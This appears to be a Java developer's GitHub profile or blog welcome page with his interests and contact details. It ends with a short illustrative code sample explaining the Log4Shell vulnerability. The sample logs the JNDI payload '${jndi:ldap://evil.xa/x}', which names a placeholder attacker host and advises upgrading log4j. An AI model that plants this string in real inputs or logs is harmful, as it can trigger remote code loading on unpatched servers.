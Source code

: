 ## Welcome to my DEV Blog

Yet another DEV blog :)

- Hi, I’m @pierreversali, a belgian 🇧🇪 Software Engineer & Architect
- I’m interested in Java ☕, Software Development 📝, Software Architecture 🏗️, Microservices ☢️, Domain Driven Design ⚛️ & Cloud-native Solutions ☁️
- I’m currently learning Quarkus & Kotlin 📚
- I’m looking to collaborate on Open Source projects / libraries 🖖

- Reach me out 📫 [pierre.versali@gmail.com](mailto:pierre.versali@gmail.com) 🌎 [Website](https://pierre-versali.bitbucket.io)

In this blog, I will share about my passion for quality and efficiency in Software Development practices and my technical watch experiments.

Hope you will find interesting and usefull content here.
Don't hesitate to share your feedback.

### Articles

### Code sample

''' java
import org.apache.log4j.LogManager;
import org.apache.log4j.Logger;

public class Log4Shell {
    protected static final Logger LOGGER = LogManager.getLogger(Log4Shell.class);

    public void log4ShellExplained() {
        LOGGER.warn("log4j <= 2.15.0 zero-day exploit");
        LOGGER.warn("Reported vulnerabilities CVE-2021-44228 and CVE-2021-45046");
        // Critical vulnerability exploit
        LOGGER.fatal("${jndi:ldap://evil.xa/x}");
        LOGGER.info("Upgrade to log4j 2.16.0");
    }
}
'''
